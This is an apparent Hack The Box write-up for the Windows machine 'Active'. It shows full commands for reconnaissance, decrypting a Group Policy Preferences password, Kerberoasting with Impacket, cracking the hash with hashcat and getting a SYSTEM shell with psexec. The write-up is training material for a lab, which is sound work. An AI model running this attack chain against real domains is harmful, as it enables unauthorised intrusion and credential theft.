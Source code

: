 # Active Writeup - by Thammanant Thamtaranon  
- Active is an easy Windows machine hosted on Hack The Box.

## Reconnaissance  
- I started with a full TCP port scan including service/version detection and OS fingerprinting:
```bash
nmap -A -T4 -p- 10.10.10.100
```
![Nmap_Scan](Nmap_Scan.png)  
- The scan showed multiple open ports:  
  - 88 (Kerberos)  
  - 135, 139, 444, 5722 (MSRPC/SMB)  
  - 389, 3268 (LDAP / Global Catalog)  
  - 464 (kpasswd5)  
  - 636, 3269 (LDAPS / Global Catalog over SSL)  
  - 593 (RPC over HTTP)  
  - 9389 (AD Web Services)  
  - 47001 (HTTP)

- I added `active.htb` to `/etc/hosts` for proper hostname resolution.

## Scanning & Enumeration  
- We connected to the SMB without password.  
![SMB1](SMB1.png)  
- We tried connecting to `Replication` first.  
- In the `\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\` we found `Group.xml`  
![SMB2](SMB2.png)  
- `Group.xml` contained the username and password for user `SVC_TGS`.  
![SVC_TGS](SVC_TGS.png)

## Exploitation  
- We then decrypted the password:
```bash 
gpp-decrypt 'edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ'
```
![Decrypt](Decrypt.png)  
- We tried connecting to `Users` but got `NT_STATUS_ACCESS_DENIED`.  
- Next, we tried to enumerate LDAP without credentials but got an error.  
- So we used the newly found credential to enumerate SMB and LDAP, both worked.  
![Enum](Enum.png)  
- We then connected to SMB and read the `Users` share
![SMB3](SMB3.png)  
- We captured the user flag.

## Privilege Escalation  
- We used Impacket to enumerate all accounts with SPNs (Service Principal Name set):  
```bash 
impacket-GetUserSPNs active.htb/SVC_TGS:'GPPstillStandingStrong2k18' -dc-host 10.10.10.100
```
- We found the `Administrator` account. Next, we requested a `TGS` ticket for `active/CIFS:445` using `SVC_TGS`.  
![Account](Account.png)  
- We initially got an error because our clock was different from the domain controller’s clock. We fixed it by:  
  - Disabling NTP auto-update: `timedatectl set-ntp off`  
  - Setting the time to match the target: `sudo rdate -n 10.10.10.100`  
  - Running the command again.  
![TGS](TGS.png)  
- We copied the hash into `tgs.hash` and cracked it using:  
```bash 
hashcat -m 13100 tgs.hash /usr/share/wordlists/rockyou.txt
```
![Password](Password.png)  
- We then used Impacket to get a shell:
```bash 
impacket-psexec administrator@10.10.10.100
```
- We got a SYSTEM shell and captured the root flag.  
![Root](Root.png)
